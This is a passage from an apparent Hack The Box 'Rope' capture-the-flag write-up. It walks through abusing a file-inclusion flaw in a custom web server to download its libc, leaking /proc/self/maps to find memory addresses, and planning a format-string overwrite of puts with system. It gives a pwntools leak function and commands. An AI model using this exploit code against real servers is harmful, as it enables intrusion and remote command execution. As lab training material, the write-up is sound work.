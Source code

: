 This does not only leak the addresses we need, but also which libc is used. We can download the libc from the server using the LFI vulnerability.
```bash
root@silence:~# wget http://10.10.10.148:9999//lib32/libc-2.27.so
--2020-05-05 17:55:39--  http://10.10.10.148:9999//lib32/libc-2.27.so
Connecting to 10.10.10.148:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1926828 (1.8M) [text/plain]
Saving to: 'libc-2.27.so'

libc-2.27.so                  100%[===============================================>]   1.84M   376KB/s    in 5.0s

2020-05-05 17:55:45 (376 KB/s) - ‘libc-2.27.so' saved [1926828/1926828]
```
With the addresses being leaked, we have everything prepared to create our exploitation strategy.

### Exploitation strategy
In order to exploit the binary, we have to do multiple steps. First, we have to leak the base addresses for the binary (PIE) and libc using the LFI. Next, we need to generate the payload to execute system commands. As we have seen earlier when reversing the binary, the HTTP request method is used as an argument for puts. We can exploit this by overwriting puts with system and pass any data we want to system. For this we need to calculate the offset for puts@got and system@libc.

## Exploiting Format String

To exploit the server, we will use python3 with Pwntools (4.1.0).
We will create our exploit skeleton using pwn template. This whole section will be a detailed explanation of the exploit code. The complete code can be found on my [GitHub](https://github.com/chr0x6eos/HTB/blob/master/Rope/user.py).

```bash
root@silence:~# pwn template httpserver > exploit.py
```
We create our skeleton script using pwn template.

### Leak function
Let us begin the first stage of our exploit and leak the base addresses. For this I have created a function, which exploits the LFI of the server, parses the addresses and returns them for later usage.

```python
def leak(io):
    print("")
    log.info("Stage 1: Leaking addresses")

    # Trigger leak of memory mapping
    io.sendline("GET //proc/self/maps HTTP/1.1")
    io.sendline("Range: bytes=0-1512")
    io.sendline("")

    # Get unwanted stuff
    io.recvuntil("Content-type: text/plain")
    io.recvline()

    # Example leakage of proc mapping
    """
    56594000-56595000 r--p 00000000 08:02 660546           /opt/www/httpserver
    [...]
    56e9f000-56ec1000 rw-p 00000000 00:00 0                [heap]
    f7d62000-f7f34000 r-xp 00000000 08:02 660685           /lib32/libc-2.27.so
    [...]
    """
```
We send a default request to the webserver with the Range header to leak the addresses.

[image]: https://made0x78.com/assets/images/bseries_ch6_stack.gif